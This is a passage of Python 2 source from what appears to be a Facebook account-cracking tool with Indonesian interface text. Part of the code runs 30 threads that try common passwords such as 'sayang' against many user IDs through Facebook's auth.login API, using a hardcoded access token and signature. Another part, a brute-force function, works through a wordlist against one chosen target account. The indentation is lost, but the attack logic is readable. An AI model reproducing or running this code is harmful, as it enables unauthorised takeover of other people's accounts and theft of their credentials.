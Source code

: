 if 'www.facebook.com' in q['error_msg']:
print '\x1b[1;97m[\x1b[1;93m\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass4
else:
pass5 = ('sayang')
data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
q = json.load(data)
if 'access_token' in q:
print '\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass5
else:
if 'www.facebook.com' in q['error_msg']:
print '\x1b[1;97m[\x1b[1;93m\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass5
else:
pass6 = ('sayangku')
data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass6 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
q = json.load(data)
if 'access_token' in q:
print '\x1b[1;97m[\x1b[1;92m\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass6
else:
if 'www.facebook.com' in q['error_msg']:
print '\x1b[1;97m[\x1b[1;93m\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass6

except:
pass

p = ThreadPool(30)
p.map(main, id)
print '\n\x1b[1;91m[+] \x1b[1;97mFinish'
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
super()


def brute():
os.system('clear')
try:
toket = open('login.txt', 'r').read()
except IOError:
print '\x1b[1;91m[!] Token not found'
os.system('rm -rf login.txt')
time.sleep(1)
login()
else:
os.system('clear')
print logo
print '╔' + 52 * '\x1b[1;97m\xe2\x95\x90'
try:
email = raw_input('\x1b[1;91m[+] \x1b[1;92mID\x1b[1;97m/\x1b[1;92mEmail\x1b[1;97m/\x1b[1;92mHp \x1b[1;97mTarget \x1b[1;91m:\x1b[1;97m ')
passw = raw_input('\x1b[1;91m[+] \x1b[1;92mWordlist \x1b[1;97mext(list.txt) \x1b[1;91m: \x1b[1;97m')
total = open(passw, 'r')
total = total.readlines()
print 52 * '\x1b[1;97m\xe2\x95\x90'
print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mTarget \x1b[1;91m:\x1b[1;97m ' + email
print '\x1b[1;91m[+] \x1b[1;92mTotal\x1b[1;96m ' + str(len(total)) + ' \x1b[1;92mPassword'
jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
sandi = open(passw, 'r')
for pw in sandi:
try:
pw = pw.replace('\n', '')
sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mTry \x1b[1;97m' + pw)
